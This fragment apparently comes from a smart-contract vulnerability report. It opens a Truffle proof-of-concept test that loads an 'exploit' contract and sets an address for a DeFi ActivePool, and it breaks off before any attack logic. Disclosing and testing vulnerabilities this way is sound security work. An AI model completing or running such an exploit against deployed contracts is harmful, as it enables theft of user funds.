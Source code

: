 PoC of truffle :

```
var exploit = artifacts.require("exploit");
var ierc20 = artifacts.require("IERC20");
var iactivepool = artifacts.require("IActivePool");
const Web3 = require('web3');



contract('exploit', function(accounts){

  let stuffInstance;
  const activePoolAddress = "0x1e3Bf0965dca89Cd057d63c0cD65A37Acf920590";
```